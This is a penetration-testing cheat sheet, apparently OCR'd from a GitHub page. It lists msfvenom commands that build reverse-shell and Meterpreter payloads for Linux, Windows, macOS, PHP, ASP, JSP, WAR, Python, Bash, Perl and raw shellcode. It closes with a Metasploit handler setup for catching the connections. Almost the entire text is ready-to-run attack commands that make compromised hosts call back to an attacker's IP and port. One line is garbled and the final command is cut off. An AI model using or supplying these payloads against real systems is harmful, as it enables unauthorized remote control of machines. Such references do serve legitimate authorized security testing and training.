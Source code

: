 - Creating Meterpreter Shells with MSFVenom - [http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/](http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)\
*Linux*\
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf\
*Windows*\
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe\
*Mac*\
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho\
**Web Payloads**\
*PHP*\
msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php\
OR\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php\
Then we need to add the shell.php && pbpaste >> shell.php\`\
*ASP*\
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp\
*JSP*\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp\
*WAR*\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war\
**Scripting Payloads**\
*Python*\
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py\
*Bash*\
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh\
*Perl*\
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl\
**Shellcode**\
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.\
*Linux Based Shellcode*\
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>\
*Windows Based Shellcode*\
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>\
*Mac Based Shellcode*\
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>\
**Handlers** Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.\
use exploit/multi/handler\
set PAYLOAD <Payload name>\
set LHOST <LHOST value>\
set LPORT <LPORT value>\
set ExitOnSession false\
exploit -j -z\
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
